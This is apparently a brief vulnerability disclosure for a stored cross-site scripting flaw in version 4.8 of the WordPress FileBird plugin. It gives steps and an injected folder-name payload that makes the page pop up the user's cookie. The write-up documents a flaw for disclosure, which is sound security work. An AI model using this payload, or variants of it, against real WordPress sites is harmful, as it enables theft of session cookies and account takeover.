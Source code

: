 # Exploit Title: WordPress FileBird plugin cross-site scripting vulnerabilities
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/filebird/
# Version :  V4.8
# Vulnerability Type: Cross-site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Click New Folder 
![image](https://github.com/BigTiger2020/word-press/blob/main/xss-1.png)  
2. Folder name input:"><img src=1 onerror=alert(document.cookie)>,click save
![image](https://github.com/BigTiger2020/word-press/blob/main/xss-2.png)  
3.The cookie identity information pops up successfully  
![image](https://github.com/BigTiger2020/word-press/blob/main/xss-3.png)  
![image](https://github.com/BigTiger2020/word-press/blob/main/%E6%9C%AA%E5%91%BD%E5%90%8D-%E5%89%AF%E6%9C%AC(4).gif)



